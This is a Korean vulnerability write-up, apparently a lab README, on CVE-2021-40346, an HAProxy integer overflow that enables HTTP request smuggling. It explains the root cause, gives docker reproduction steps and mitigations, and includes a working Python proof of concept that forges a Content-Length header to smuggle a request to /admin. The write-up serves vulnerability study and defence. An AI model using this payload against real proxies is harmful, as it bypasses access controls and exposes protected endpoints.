

# CVE-2021-40346 — HAProxy Integer Overflow leading to HTTP Request Smuggling

## 취약점 요약

- HAProxy는 오픈소스 기반 리버스 프록시 겸 로드 밸런서로, 부하 분산 및 ACL(접근 제어 규칙) 처리 등을 담당하는 소프트웨어임
- CVE-2021-40346은 HAProxy가 HTTP 헤더를 내부 HTX 포맷으로 저장하는 `htx_add_header()` 함수에서 헤더 이름(Header Name)의 길이를 검증하지 않는 과정에서 발생하는 접근 제어 우회(ACL Bypass) 취약점
- 이 취약점은 HTTP 요청 내 헤더 이름의 길이를 특정 조건에 맞게 늘리는 것 만으로 백엔드에서 공격자가 원하는 요청을 실행시킬 수 있다는 점에서, 조작 방식은 단순하나 그 파급력은 강력한 취약점으로 평가됨
- 참고 자료: https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

## 취약 조건

- **영향 버전**: HAProxy 2.0 이상 ~ 2.5(dev6 포함) 이하
- **ACL 설정**: 프론트엔드에 `http-request` 기반의 경로 접근 제어 규칙 (예: `path_beg /admin`)이 설정되어 있을 것 — 이 규칙이 우회 대상이 됨

## 분석

HAProxy는 HTTP 헤더를 내부 HTX 포맷으로 저장할 때, 헤더 이름 길이를
8비트(최대 255) 필드에 기록한다. `htx_add_header()` 함수에는 이 길이를
검증하는 로직이 누락되어 있어, 256바이트 이상의 이름을 보내면 정수
오버플로우가 발생하고 넘친 비트가 인접한 값 길이 필드로 흘러 들어간다.

헤더 이름을 정확히 270바이트로 만들면(`270 mod 256 = 14`), HAProxy는
이를 `"Content-Length"`(14글자)로 착각하고, 오버플로우로 오염된 1바이트를
값으로 읽는다. 이 자리에 `"0"`을 배치하면 **위조된
`Content-Length: 0` 헤더**가 만들어진다.

이 위조 헤더 뒤에 진짜 `Content-Length` 헤더를 이어 보내면, HAProxy는
중복 헤더 중 먼저 온 것(위조된 0)을 채택하고 진짜 값은 폐기한다. 이때
클라이언트로부터 실제 본문을 읽어들이는 과정은 원본 텍스트를 기준으로
정확히 동작하지만, 백엔드로 전달되는 헤더에는 위조된 값(0)이 기록되어
**"실제 수신한 본문 크기"와 "백엔드에 통보된 크기"가 불일치**하게 된다.

백엔드는 통보받은 값(0)을 믿고 해당 요청이 끝났다고 판단한 뒤, 원래
본문이었던 데이터를 완전히 새로운 요청으로 재해석한다. HAProxy의 ACL은
이보다 앞서 최초 요청줄에 대해서만 검사되므로, 숨겨진 두 번째 요청은
검사 대상에 포함되지 못한 채 백엔드에 도달한다. 그 결과 설정된 모든
`http-request` ACL이 우회된다.

## 환경 구성 및 재현 절차

- `docker compose up --build -d` 를 실행하여 취약한 테스트 환경 실행 (haproxy ver.2.2.16 / backend: gunicorn)
- 아래 코드를 통해 HAProxy와 백엔드 서버 활성화 테스트

  ```bash
  until curl -s -o /dev/null http://localhost:8080/; do sleep 1; done
  echo "준비 완료"
  ```

- `python3 poc.py --host 127.0.0.1 --port 8080` poc 코드 실행
- `docker logs cve-2021-40346-backend --tail 5` 백엔드 접속 로그를 통해 `/admin` 요청이 실제로 처리되었는지 확인

## PoC 코드

```python
import socket

HOST = "127.0.0.1"
PORT = 8080

# 이름을 270바이트로 만들면 8비트 이름 길이 필드가 오버플로우되어
# HAProxy가 이걸 "Content-Length: 0" 헤더로 착각한다.
fake_name = b"Content-Length" + b"0" + b"a" * 255   # 14 + 1 + 255 = 270 bytes

hidden_request = b"GET /admin HTTP/1.1\r\nHost: abc.com\r\nConnection: close\r\n\r\n"

payload = (
    b"POST / HTTP/1.1\r\n"
    b"Host: abc.com\r\n"
    + fake_name + b":\r\n"
    + b"Content-Length: " + str(len(hidden_request)).encode() + b"\r\n"
    b"\r\n"
    + hidden_request
)

with socket.create_connection((HOST, PORT), timeout=5) as s:
    s.sendall(payload)
    print(s.recv(4096).decode(errors="replace"))
```

## 실행 결과


위와 같이 백엔드에서 접근이 제한된 admin에 대한 GET 요청 처리
## 대응 방안

- **버전 업그레이드**: 2.0.25 / 2.2.17 / 2.3.14 / 2.4.4 이상으로 즉시 업데이트
  (`htx_add_header()`에 이름/값 길이 검증 로직 추가로 근본 해결됨)
- **심층 방어**: 프록시 ACL에만 의존하지 않고, 백엔드 애플리케이션
  자체에도 인증/인가 로직을 이중으로 구현